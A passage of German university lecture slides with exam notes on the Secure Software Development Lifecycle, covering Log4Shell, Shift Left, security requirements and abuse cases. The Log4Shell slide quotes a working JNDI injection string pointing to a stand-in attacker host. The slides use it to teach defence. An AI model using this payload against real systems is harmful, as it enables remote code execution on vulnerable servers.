



# Secure Software Development Lifecycle

### Wie Sicherheit in den Code kommt

### 💡 Das große Ganze
Software steuert heute jedes moderne Unternehmen – vom Onlineshop bis zur Flugzeugsteuerung. Wenn Sicherheit erst ganz am Ende geprüft wird, ist das wie ein Brandschutzkonzept, das man erst schreibt, wenn das Gebäude bereits brennt: Umbauten sind extrem teuer und oft unvollständig. Der SSDLC sorgt dafür, dass Sicherheit von der ersten Idee bis zum laufenden Betrieb integraler Bestandteil der Software ist („Security by Design“).

### 🎯 Orientierung
Dieser Foliensatz führt dich durch den gesamten Entwicklungszyklus: von realen Katastrophen (Log4Shell) über die Phasen Planung, Design, Testing bis hin zur modernen CI/CD-Lieferkette (DevSecOps).

### ❓ Prüfungsfokus
In der Klausur musst du die einzelnen Phasen des SSDLC kennen, typische Sicherheitsmethoden (wie SAST, DAST, SCA, Threat Modeling) der richtigen Phase zuordnen und den wirtschaftlichen Vorteil von „Shift Left“ begründen können.

---

# Agenda

- **Log4Shell** – Der Tag, an dem das Internet brannte
- **Grundlagen** – Vom SDLC zum SSDLC, Shift Left
- **Planung** – Security Requirements, Abuse Cases, Compliance
- **Design** – Security by Design, Threat Modeling, STRIDE
- **Testing** – SAST, DAST, SCA, Code Review, Fuzzing
- **Supply Chain** – Angriffsflächen & Software Bill of Materials (SBOM)
- **DevSecOps** – CI/CD-Integration & Security Gates

### 💡 Strukturüberblick
Der Aufbau folgt dem Lebenszyklus moderner Software: Erst verstehen wir an einem Schockmoment (Log4Shell), warum klassische Entwicklung scheitert. Danach gehen wir die Phasen chronologisch durch: Was planen wir? Wie entwerfen wir die Architektur? Wie testen wir den Code? Und wie sichern wir die Auslieferung in der Cloud ab?

### 🎯 Lern-Strategie
- **Grundlagen (SSDLC, Shift Left):** Musst du wie im Schlaf definieren und grafisch erklären können.
- **Design & STRIDE:** Häufiger Fallstudien-Gegenstand in Klausuren (Threat Modeling).
- **Testing (SAST vs. DAST vs. SCA):** Der absolute Klausur-Klassiker – hier werden gerne Vergleiche abgefragt.
- **DevSecOps & SBOM:** Moderne Transferthemen (Automatisierung, Lieferkettensicherheit).

### ❓ Typische Klausur-Schwerpunkte
Prüfungsfragen fragen selten die Agenda ab, sondern greifen sich zwei Bausteine heraus (z. B. „Vergleichen Sie SAST und DAST“ oder „Erläutern Sie STRIDE an einem Beispiel“).

---

# Log4Shell

## Der Tag, an dem das Internet brannte

### 💡 Worum geht es in diesem Kapitel?
Wir starten mit einem der verheerendsten IT-Sicherheitsvorfälle der Geschichte (Dezember 2021). Log4Shell zeigt drastisch, was passiert, wenn Entwickler eine scheinbar harmlose Logging-Komponente mit gefährlichen Automatismen ausstatten und niemand fragt: „Was könnte ein Angreifer damit anstellen?“

### 🎯 Modul-Lernziel
Du musst verstehen, warum Log4Shell kein reiner Tippfehler im Code war, sondern ein fundamentales Versagen im Software-Design und der Software-Lieferkette (Supply Chain).

### ❓ Typische Schwerpunkte
In Prüfungen wird Log4Shell gern als Fallbeispiel genutzt, um zu prüfen: Welches Schutzziel wurde verletzt? Welche konkreten SSDLC-Maßnahmen hätten das Problem verhindert oder die Reaktionszeit verkürzt?

---

# Fallstudie: Log4Shell (Dezember 2021)

- **Was geschah?**
  - Kritische Schwachstelle in **Log4j**, einer der meistgenutzten Java-Logging-Bibliotheken
  - Ein einziger String in einer Log-Nachricht (`${jndi:ldap://angreifer.de/x}`) reichte, um beliebigen Code auf dem Server auszuführen
  - Betroffen: Minecraft, Apple iCloud, Amazon, Cloudflare, unzählige Firmen weltweit

- **CVSS-Score: 10.0 von 10** – der höchstmögliche Schweregrad

### 💡 Was zeigt uns dieser Fall?
Log4j ist eine weitverbreitete Standard-Bibliothek in Java, die eigentlich nur Protokolltexte mitschreiben soll (z. B. „User X hat sich eingeloggt“). Doch sie enthielt eine Funktion, die bestimmte Textmuster automatisch interpretierte und versuchte, externen Programmcode aus dem Internet nachzuladen und auszuführen (Remote Code Execution, RCE).
*Alltagsanalogie:* Stell dir vor, du schreibst einen Einkaufszettel in dein Notizbuch. Sobald du das Wort „Pizza“ schreibst, rennt dein Notizbuch selbstständig los, bestellt 100 Pizzen auf deine Kreditkarte und sperrt dich aus deiner Wohnung aus. Genau das tat der Logger mit fremdem Input.
*CVSS 10.0:* Die Skala für Schwachstellen reicht von 0 bis 10. 10.0 bedeutet: Maximaler Schaden, kinderleicht aus der Ferne ohne vorherigen Login ausnutzbar.

### 🎯 Klausurrelevanz (Transferaufgabe!)
- **Was du können musst:** Die Wirkungskette von Log4Shell erklären: Ungeprüfte Eingabe → Logger führt Lookup aus (JNDI) → schädlicher Code wird nachgeladen → **Remote Code Execution (RCE)** mit Rechten des Servers.
- **Typische Klausurfalle:** Log4j für ein eigenständiges Programm halten. Es ist eine **Bibliothek/Abhängigkeit**, die in tausenden anderen Programmen unsichtbar eingebaut war!

### ❓ Typische Fallfrage & Lösung
**Frage:** „Warum hatte die Schwachstelle Log4Shell (CVE-2021-44228) einen maximalen CVSS-Score von 10.0? Nennen Sie zwei technische und organisatorische Gründe.“
**Antwort:**
- **Einfache Ausnutzbarkeit:** Ein Angreifer brauchte keine Zugangsdaten; ein simpler Textstring in einem Eingabefeld (z. B. Chat, Benutzername) reichte aus.
- **Volle Kontrolle (RCE):** Der Angreifer konnte beliebigen Code auf dem Server ausführen (**Remote Code Execution**).
- **Enorme Verbreitung:** Log4j war als (transitive) Abhängigkeit millionenfach in Unternehmenssoftware weltweit verbaut.

---

# Warum konnte das passieren?

- **Technische Ursache**: Log4j konnte Log-Nachrichten automatisch als **JNDI-Lookup** (Java Naming and Directory Interface) interpretieren und externen Code nachladen
  - Ein Feature, kein Bug – aber ohne Absicherung gegen fremde Eingaben gebaut

- **Prozess-Ursache**: Niemand hatte im Design gefragt „Was, wenn ein Angreifer diesen String selbst einschleust?"
  - Kein Threat Modeling, keine Abuse-Case-Betrachtung für diese Funktion

> **Merksatz:** Log4Shell war kein Coding-Fehler im klassischen Sinn – es war ein Versagen im *Design*.

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Log4Shell entstand nicht, weil ein Programmierer ein Semikolon vergessen hat. Das Verhalten war von den Entwicklern sogar als „Feature“ gedacht: Log4j sollte dynamische Daten per JNDI (Java Naming and Directory Interface) aus Verzeichnisdiensten nachschlagen können. Der fatale Denkfehler war: Niemand hat bedacht, dass dieser Logger auch Daten protokolliert, die direkt von externen, böswilligen Nutzern stammen (z. B. aus HTTP-Headern oder Web-Formularen).
*Alltagsanalogie:* Ein Postbote, der den Auftrag hat: „Wenn auf dem Briefumschlag steht 'Zünde das Haus an', dann zünde das Haus an.“ Er führt die Anweisung brav aus, weil niemand eine Vertrauensgrenze zwischen dem Absender und den Handlungsanweisungen gezogen hat.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Den fundamentalen Unterschied zwischen einem **Implementierungsfehler** (Bug im Code) und einem **Designfehler** (Fehlkonzeption in der Architektur) erklären und auf Log4Shell anwenden.
- **Typische Klausurfalle:** Zu behaupten, Log4Shell sei durch einen Programmierfehler entstanden. Die Funktion tat genau das, was programmiert wurde – die Anforderung selbst war hochgradig unsicher!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Erläutern Sie, warum Log4Shell primär als Design-Versagen und nicht als reiner Programmierfehler eingestuft wird.“
**Antwort:**
- **Gewolltes Feature:** Der JNDI-Lookup funktionierte technisch exakt wie spezifiziert.
- **Fehlende Vertrauensgrenze:** Es wurde im Design nicht berücksichtigt, dass Log-Nachrichten nicht-vertrauenswürdige Benutzereingaben enthalten können.
- **Fehlendes Threat Modeling / Abuse Cases:** Es wurde im Vorfeld nicht gefragt: „Was passiert, wenn ein Angreifer diesen Lookup-String gezielt einschleust?“

---

# Konsequenzen & Lehren

- **Kosten**: Wochenlange Notfall-Patches weltweit, geschätzte Milliardenschäden durch Ausfallzeiten und Incident Response

- **Regulatorisch**: Behörden (u. a. CISA in den USA) gaben Notfallanweisungen heraus

- **Lehren für heute:**
  - Sicherheit muss **vor** dem ersten Zeilen-Code mitgedacht werden
  - Abhängigkeiten (auch tief verschachtelte) sind Teil der eigenen Angriffsfläche
  - Ohne **Software Bill of Materials (SBOM)** wussten viele Firmen tagelang nicht, ob sie überhaupt betroffen waren

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Nach dem Bekanntwerden von Log4Shell herrschte tagelang weltweites Chaos. Das größte Problem für Unternehmen war nicht nur das Patchen, sondern schlicht die Frage: „Nutzen wir Log4j überhaupt?“ Weil viele Firmen keine Übersicht über ihre Software-Bausteine hatten, mussten IT-Abteilungen tausende Server manuell durchsuchen.
*Alltagsanalogie:* Ein Lebensmittelhersteller ruft eine giftige Chemikalie zurück, die in Backpulver enthalten ist. Eine Bäckerei weiß aber gar nicht, in welchen ihrer 50 Kuchen dieses Backpulver drin ist, weil die Zutatenlisten fehlen. Eine **SBOM** ist genau diese detaillierte Zutatenliste für Software.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Die drei Kernlehren aus Log4Shell nennen: (1) Sicherheit vor dem Coden mitdenken (**Shift Left**), (2) Abhängigkeiten als Angriffsfläche begreifen, (3) Transparenz über Abhängigkeiten schaffen mittels **Software Bill of Materials (SBOM)**.
- **Typische Klausurfalle:** Glauben, eine SBOM würde Angriffe automatisch abwehren. Eine SBOM ist nur ein **Inventar**; sie wehrt nichts ab, spart aber im Ernstfall Tage bei der Betroffenheitsanalyse!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Warum dauerte die Reaktion auf Log4Shell bei vielen Unternehmen mehrere Tage oder Wochen, obwohl der Patch schnell verfügbar war?“
**Antwort:**
- **Mangelnde Transparenz:** Unternehmen führten kein Verzeichnis über ihre Softwarekomponenten (keine **SBOM**).
- **Transitive Abhängigkeiten:** Log4j war oft nicht direkt eingebunden, sondern tief verschachtelt in Drittanbieter-Software oder Bibliotheken versteckt.
- **Hoher Suchaufwand:** Ohne automatisierte Werkzeuge (SCA/SBOM) musste jedes System mühsam manuell analysiert werden.

---

# Grundlagen

## Vom SDLC zum SSDLC

### 💡 Worum geht es in diesem Kapitel?
Wir betrachten das Fundament moderner Softwareentwicklung: Wie läuft Softwareentwicklung traditionell ab (SDLC)? Warum scheitert Sicherheit, wenn sie erst kurz vor dem Release geprüft wird? Und wie löst der Secure SDLC (SSDLC) zusammen mit dem Prinzip „Shift Left“ dieses Problem?

### 🎯 Modul-Lernziel
Du lernst die Phasen des SDLC kennen und verstehst die wirtschaftliche und technische Notwendigkeit, Sicherheit von Anfang an mitzudenken.

### ❓ Typische Schwerpunkte
Definition und Phasen des SSDLC, die Kostenkurve für späte Fehlerbehebung sowie das Prinzip „Shift Left“ (Definition + Vor- und Nachteile).

---

# Software Development Lifecycle (SDLC)

- **Software Development Lifecycle (SDLC)**: strukturierter Prozess zur Entwicklung von Software in klar abgegrenzten Phasen

- Klassische Phasen:
  - **Planung** → **Design** → **Implementierung** → **Testing** → **Deployment** → **Wartung**

- Ziel: Qualität, Termintreue, nachvollziehbare Entwicklung

- Sicherheit kommt in dieser klassischen Sicht **nicht** als eigene Phase vor

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Der SDLC beschreibt den geordneten Lebensweg einer Software von der ersten Idee bis zur Abschaltung. Statt chaotisch drauflos zu programmieren, folgt man strukturierten Schritten: Was wollen wir bauen (Planung)? Wie soll es aufgebaut sein (Design)? Wir schreiben den Code (Implementierung), testen die Funktionen (Testing), bringen es live (Deployment) und halten es am Laufen (Wartung).
*Alltagsanalogie:* Hausbau. Zuerst Architektenplan und Baugenehmigung, dann Rohbau, Innenausbau, Endabnahme und schließlich Instandhaltung.
*Problem:* Im klassischen SDLC taucht das Wort „Sicherheit“ nirgends explizit auf – man baute das Haus und hoffte einfach, dass keine Einbrecher kommen.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Die klassischen Phasen des SDLC in der richtigen Reihenfolge aufzählen können (**Planung → Design → Implementierung → Testing → Deployment → Wartung**).
- **Typische Klausurfalle:** Den SDLC mit rein linearen Modellen (Wasserfall) gleichsetzen. Der SDLC ist das übergeordnete Phasenmodell, das sowohl im Wasserfall als auch in agilen Sprints (Scrum) durchlaufen wird!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Nennen Sie die sechs klassischen Phasen des Software Development Lifecycle (SDLC) und erklären Sie, welches Hauptproblem der klassische SDLC bezüglich IT-Sicherheit aufweist.“
**Antwort:**
- **Phasen:** Planung, Design, Implementierung, Testing, Deployment, Wartung.
- **Hauptproblem:** Sicherheit ist keine eigene Phase und wird nicht systematisch in jeder Phase mitgedacht; sie wird oft komplett ignoriert oder erst ganz zum Schluss betrachtet.

---

# Das Problem: Security als Nachgedanke

- Traditionell wurde Sicherheit oft erst **am Ende** geprüft – z. B. kurz vor dem Release durch einen Penetrationstest

- Folge: Schwachstellen werden erst spät entdeckt, wenn Architektur und Code bereits feststehen

- Nachträgliches Beheben bedeutet oft: Code umschreiben, Architektur anpassen, Release verschieben

> **Merksatz:** Security als letzter Schritt ist wie ein Airbag, den man erst nach dem Unfall einbaut.

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Früher entwickelte man monatelang Software und bestellte zwei Wochen vor dem Go-Live externe Hacker für einen „Penetrationstest“ (Pentest). Fanden diese schwerwiegende Sicherheitslücken in der Architektur, gab es nur zwei schlechte Optionen: Den Release um Monate verschieben und Millionen für Umbauten verbrennen – oder die unsichere Software live schalten und auf das Beste hoffen.
*Alltagsanalogie:* Ein Auto komplett fertigbauen und erst beim Crashtest feststellen, dass man die Bremsen und Airbags vergessen hat. Das Auto nachträglich aufzuschneiden, um Airbags nachzurüsten, ruiniert die Karosserie und kostet ein Vermögen.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Die Risiken und wirtschaftlichen Konsequenzen erklären, wenn Sicherheit erst am Ende des Entwicklungszyklus getestet wird (Projektverzögerung, explodierende Kosten, Release-Druck führt zu Sicherheitskompromissen).
- **Typische Klausurfalle:** Zu glauben, Penetrationstests seien überflüssig. Pentests am Ende sind **wichtig**, dürfen aber **nicht die einzige** Sicherheitsmaßnahme sein!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Warum ist ein Penetrationstest kurz vor dem Release als alleinige Sicherheitsmaßnahme unzureichend?“
**Antwort:**
- **Zu spät für Architekturfehler:** Fundamentale Design- und Architekturfehler lassen sich kurz vor dem Go-Live kaum noch beheben.
- **Hohe Kosten und Verzögerungen:** Nachträgliche Korrekturen erfordern tiefgreifende Code- und Architekturänderungen, die Releases massiv verzögern.
- **Termindruck:** Häufig werden gefundene Schwachstellen aus Zeitmangel notdürftig überklebt („Workarounds“) statt sauber behoben.

---

# Was kostet ein später Fund?

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Je später eine Sicherheitslücke im Entwicklungsprozess entdeckt wird, desto exponentiell teurer ist ihre Beseitigung (bekannt als Boehm'sche Kostenkurve). Ein Fehler in den Anforderungen kostet wenige Cent oder Minuten (einfach den Anforderungstext anpassen). Im Design erfordert er neue Diagramme. Im Code muss umprogrammiert werden. Wird der Fehler aber erst im laufenden Betrieb (Production) entdeckt, drohen Notfall-Patches, Ausfallzeiten, Kundenschäden, Vertragsstrafen und Imageschäden – die Kosten steigen um das 30- bis 100-Fache!
*Alltagsanalogie:* Einen Konstruktionsfehler im Bauplan mit dem Radiergummi korrigieren (Planung) vs. das bereits bezogene Fundament eines Wolkenkratzers mit der Abrissbirne einreißen müssen (Betrieb).

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Den Verlauf der Kostenkurve erläutern und stichhaltig begründen, warum die Behebungskosten mit fortschreitender Phase exponentiell steigen (mehr Artefakte betroffen: Code, Tests, Doku, Deployment-Skripte).
- **Typische Klausurfalle:** Nur die reinen Programmierkosten zu sehen. In Produktion entstehen Kosten vor allem durch **Incident Response, Regressansprüche, Ausfallzeiten und Reputationsverlust**!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Begründen Sie anhand der Phasen des SDLC, warum die Behebung einer Schwachstelle im laufenden Betrieb ein Vielfaches dessen kostet, was sie in der Planungsphase gekostet hätte.“
**Antwort:**
- **In der Planung:** Es muss lediglich das **Anforderungs- oder Spezifikationsdokument** angepasst werden (minimaler Aufwand).
- **Im Betrieb:** Es müssen **Code, Architektur, Schnittstellen und Tests** geändert werden; Notfall-Deployments, mögliche Ausfallzeiten, forensische Untersuchungen (**Incident Response**) und Haftungs-/Reputationsschäden fallen an.

---

# Secure Software Development Lifecycle (SSDLC)

- **Secure SDLC (SSDLC)**: Erweiterung des klassischen SDLC, bei der Sicherheitsaktivitäten in **jede** Phase integriert werden – nicht nur am Ende

- Kein Ersatz für den SDLC, sondern eine **Sicherheitsschicht** über allen Phasen

- Jede Phase bekommt eigene Sicherheitsaufgaben:
  - Planung → Security Requirements
  - Design → Threat Modeling
  - Implementierung → Secure Coding
  - Testing → SAST/DAST/SCA
  - Deployment/Wartung → Monitoring, Patch-Management

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Der SSDLC wirft den normalen Entwicklungsprozess nicht über den Haufen, sondern legt eine systematische **Sicherheitsschicht über jede einzelne Phase**. Statt Sicherheit als isolierten Endschritt zu behandeln, hat jede Phase ihre eigene, passende Sicherheitsaktivität: Planung definiert Sicherheitsziele, Design baut den Schutzwall (Threat Modeling), Entwicklung schreibt sicheren Code, Testing scannt automatisch und der Betrieb überwacht kontinuierlich.
*Alltagsanalogie:* Ein Flugzeugbau. Sicherheit ist keine extra Werkstatt am Ende der Rollbahn, sondern fließt in die Materialauswahl, die Triebwerkskonstruktion, die Qualitätsprüfungen bei der Montage und die Checklisten der Piloten ein.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Die Zuordnung der Sicherheitsaktivitäten zu den jeweiligen Phasen des SSDLC fehlerfrei wiedergeben können (Planung ➔ Security Requirements / Design ➔ Threat Modeling / Implementierung ➔ Secure Coding / Testing ➔ SAST, DAST, SCA / Betrieb ➔ Monitoring & Patching).
- **Typische Klausurfalle:** SSDLC als neues, separates Projektmanagement-Modell zu bezeichnen. Es ist eine **Erweiterung / Härtung** bestehender Entwicklungsprozesse!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Definieren Sie den Begriff Secure SDLC (SSDLC) und nennen Sie zu drei verschiedenen Phasen je eine konkrete Sicherheitsaktivität.“
**Antwort:**
- **Definition:** Systematische Integration von Sicherheitsaktivitäten und -prüfungen in **jede Phase** des bestehenden Softwareentwicklungsprozesses.
- **Beispiele für Phasen & Aktivitäten:**
  - *Planung:* Definition von **Security Requirements** und **Abuse Cases**.
  - *Design:* Durchführen von **Threat Modeling** (z. B. mit STRIDE).
  - *Testing:* Automatisierte Sicherheitsscans (**SAST / DAST / SCA**).

---

# Shift Left

- **Shift Left**: Sicherheitsprüfungen so früh wie möglich im Entwicklungsprozess durchführen – zeitlich "nach links" auf der Zeitachse verschoben

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Wenn man sich einen Zeitstrahl von links (Projektstart) nach rechts (Release & Betrieb) vorstellt, bedeutet „Shift Left“: Wir verschieben Sicherheitsprüfungen zeitlich so weit wie möglich **nach links**. Entwickler bekommen bereits beim Schreiben der ersten Codezeile Feedback von automatischen Scannern, statt Wochen später vom externen Pentest-Team überrascht zu werden.
*Alltagsanalogie:* Rechtschreibprüfung in Word. Sie unterstreicht Tippfehler rot, während du tippst (Shift Left). Der alte Ansatz wäre: Den 500-Seiten-Roman fertig drucken, binden lassen und erst im Buchladen von einem Lektor lesen lassen.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Das Prinzip „Shift Left“ definieren, seinen wirtschaftlichen Nutzen erklären (schnelle Feedbackschleifen, niedrigere Kosten) und die Grenzen kennen.
- **Typische Klausurfalle:** Die Annahme, Shift Left bedeute, dass man am Ende keine Tests mehr braucht. **Falsch:** Shift Left *ergänzt* späte Tests (wie DAST, Pentests oder Monitoring), ersetzt sie aber niemals vollständig!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Erläutern Sie das Prinzip 'Shift Left' im Kontext der Softwareentwicklung. Bedeutet Shift Left, dass späte Sicherheitstests wie Penetrationstests entfallen können? Begründen Sie.“
**Antwort:**
- **Erklärung:** Sicherheitsaktivitäten werden zeitlich so früh wie möglich im Entwicklungszyklus („nach links“) durchgeführt, um Schwachstellen schnell und kostengünstig zu finden.
- **Kein Entfall später Tests:** Nein, Penetrationstests und Laufzeitprüfungen bleiben unverzichtbar. Manche Fehler (z. B. Konfigurationsprobleme, Zusammenspiel mehrerer Systeme) zeigen sich erst in einer lauffähigen Gesamtumgebung.

---

# Zusammenfassung: SDLC vs. SSDLC

| Aspekt | SDLC (klassisch) | SSDLC |
|---|---|---|
| Sicherheit | Am Ende, oft nur Pentest | In jeder Phase |
| Kosten von Fehlern | Hoch (spät entdeckt) | Niedriger (früh entdeckt) |
| Verantwortung | Meist nur Security-Team | Gesamtes Entwicklungsteam |
| Denkweise | "Security testen" | "Security by Design" |

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Der Unterschied zwischen klassischem SDLC und SSDLC lässt sich in vier Punkten zusammenfassen: Wann wird geprüft (Ende vs. jede Phase)? Was kostet es (teuer vs. günstig)? Wer ist verantwortlich (nur die Security-Abteilung vs. das ganze Team)? Und was ist die Denkweise (hinterher reparieren vs. von Grund auf sicher bauen)?
*Alltagsanalogie:* Ein Restaurant, bei dem erst der Gast probiert und feststellt, ob die Suppe versalzen ist (klassisch), vs. eine Küche, in der frische Zutaten geprüft werden, nach Rezept gekocht wird und der Koch bei jedem Schritt abschmeckt (SSDLC).

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Den klassischen SDLC und den SSDLC in mindestens 3 Dimensionen (Zeitpunkt, Kosten, Verantwortung, Philosophie) sauber gegenüberstellen können.
- **Typische Klausurfalle:** Zu behaupten, beim SSDLC sei das Security-Team überflüssig. Das Security-Team wird zum Berater und Befähiger (**Enabler**), während die Verantwortung auf alle verteilt wird.

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Vergleichen Sie den klassischen SDLC mit dem Secure SDLC (SSDLC) anhand der Kriterien 'Verantwortung' und 'Sicherheitsansatz'.“
**Antwort:**
- **Verantwortung:** Im klassischen SDLC liegt Sicherheit isoliert beim **Security-Team** (Silodenken). Im SSDLC trägt das **gesamte Entwicklungsteam** gemeinsame Verantwortung („Shared Responsibility“).
- **Sicherheitsansatz:** Im klassischen SDLC herrscht der Ansatz **„Security testen“** (reaktiv am Ende). Im SSDLC gilt **„Security by Design“** (präventiv in jeder Phase verankert).

---

# Planung

## Security Requirements, Abuse Cases, Compliance

### 💡 Worum geht es in diesem Kapitel?
Bevor die erste Codezeile getippt oder ein System entworfen wird, müssen die Spielregeln festgelegt werden. Wir lernen, wie man Sicherheitsanforderungen (Security Requirements) formuliert, wie man mit Abuse Cases die Gedankenwelt eines Kriminellen einnimmt und wie gesetzliche Vorgaben (Compliance wie DSGVO, ISO 27001) als Treiber wirken.

### 🎯 Modul-Lernziel
Du kannst aus einer geschäftlichen Funktion konkrete funktionale und nicht-funktionale Sicherheitsanforderungen sowie Missbrauchsszenarien ableiten.

### ❓ Typische Schwerpunkte
Unterschied funktionale vs. nicht-funktionale Security Requirements, Ableitung von Abuse Cases aus Use Cases und das Zusammenspiel von Compliance und Sicherheit.

---

# Security Requirements

- **Security Requirements**: Anforderungen an ein System, die sich nicht auf Funktionalität, sondern auf Schutzziele beziehen

- Zwei Arten:
  - **Funktionale Security-Anforderungen**: „Passwörter müssen gehasht gespeichert werden"
  - **Nicht-funktionale Security-Anforderungen**: „Das System muss 99,9 % der Login-Versuche in unter 1 Sekunde verarbeiten – auch unter Last durch Credential-Stuffing"

- Werden idealerweise **gemeinsam** mit den fachlichen Anforderungen erhoben – nicht nachträglich ergänzt

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Normale Software-Anforderungen beschreiben, was die App tun soll („Der Kunde kann Produkte in den Warenkorb legen“). **Security Requirements** beschreiben, wie die Werte und Daten dabei geschützt werden müssen.
- *Funktional:* Ein konkretes Sicherheitsfeature, das gebaut werden muss (z. B. „Passwörter müssen mit Argon2 gehasht werden“ oder „Nach 5 Fehlversuchen greift ein Rate-Limit“).
- *Nicht-funktional:* Eine allgemeine Qualitätseigenschaft oder Randbedingung des Gesamtsystems (z. B. „Die API muss unter Last 99,9 % Verfügbarkeit bieten“ oder „Datenübertragung darf nur via TLS 1.3 erfolgen“).
*Wichtig:* Die Anforderung „Das System muss sicher sein“ ist wertlos, weil sie nicht prüfbar ist. Anforderungen müssen messbar und testbar formuliert sein!

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Funktionale von nicht-funktionalen Sicherheitsanforderungen unterscheiden und vage Aussagen in präzise, testbare Anforderungen umformulieren können.
- **Typische Klausurfalle:** Nicht-funktionale Anforderungen mit „unwichtig“ verwechseln. Sie definieren zentrale Schranken wie Latenz, Verschlüsselungsstärken oder Verfügbarkeit!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Unterscheiden Sie funktionale und nicht-funktionale Sicherheitsanforderungen anhand des Logins eines Online-Banking-Portals.“
**Antwort:**
- **Funktionale Anforderung:** Das System muss für jeden Login-Vorgang einen zweiten Faktor per Authenticator-App erzwingen (**Zwei-Faktor-Authentifizierung**).
- **Nicht-funktionale Anforderung:** Die Verifizierung des Login-Tokens muss in **unter 500 Millisekunden** erfolgen und die Verbindung muss über **TLS 1.3** verschlüsselt sein.

---

# Abuse Cases vs. Use Cases

- **Use Case**: beschreibt, wie ein System **bestimmungsgemäß** genutzt wird
  - Beispiel: „Nutzer meldet sich mit Benutzername und Passwort an"

- **Abuse Case**: beschreibt, wie ein System **missbräuchlich** genutzt werden könnte
  - Beispiel: „Angreifer probiert automatisiert tausende Passwörter durch (Credential Stuffing)"

- Für jeden kritischen Use Case sollte mindestens ein passender Abuse Case erhoben werden

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Ein **Use Case** beschreibt den Sonnenschein-Fall: Ein ehrlicher Kunde nutzt die Funktion genau so, wie sie gedacht war (z. B. „Kunde meldet sich an“). Ein **Abuse Case** (Missbrauchsfall) dreht die Perspektive um: Wie kann ein bösartiger Angreifer diese Funktion zweckentfremden, um Schaden anzurichten oder Daten zu stehlen?
*Alltagsanalogie:* Ein Briefkasten an einem Haus. *Use Case:* Der Briefträger wirft Briefe ein. *Abuse Case:* Ein Dieb versucht, mit einer Drahtschlinge Briefe herauszufischen, oder jemand wirft Böller hinein. Wer nur an den Briefträger denkt, baut einen Schlitz ohne Diebstahlsicherung.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Zu einem vorgegebenen Use Case einen realistischen Abuse Case formulieren und daraus eine konkrete Sicherheitsmaßnahme ableiten können.
- **Typische Klausurfalle:** Credential Stuffing (Ausprobieren von gestohlenen Zugangsdaten aus Datenlecks) mit manuellem Brute-Force (willkürliches Raten) gleichsetzen.

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Gegeben ist der Use Case: 'Kunde setzt sein Passwort über einen Link per E-Mail zurück.' Formulieren Sie einen passenden Abuse Case und eine Gegenmaßnahme.“
**Antwort:**
- **Abuse Case:** Ein Angreifer fordert massenhaft Passwort-Reset-Links für fremde E-Mail-Adressen an, errät den Reset-Token oder fängt unverschlüsselte Reset-Links ab, um fremde Konten zu übernehmen.
- **Gegenmaßnahme:** Generierung eines **kryptographisch zufälligen, einmaligen Tokens** mit kurzer Gültigkeitsdauer (z. B. 15 Minuten) und Einführung von **Rate Limiting** für Reset-Anfragen.

---

# Compliance als Treiber

- Viele Security Requirements entstehen nicht freiwillig, sondern durch **rechtliche und regulatorische Vorgaben**

- Wichtige Rahmenwerke:
  - **Datenschutz-Grundverordnung (DSGVO)**: Schutz personenbezogener Daten, „Privacy by Design"
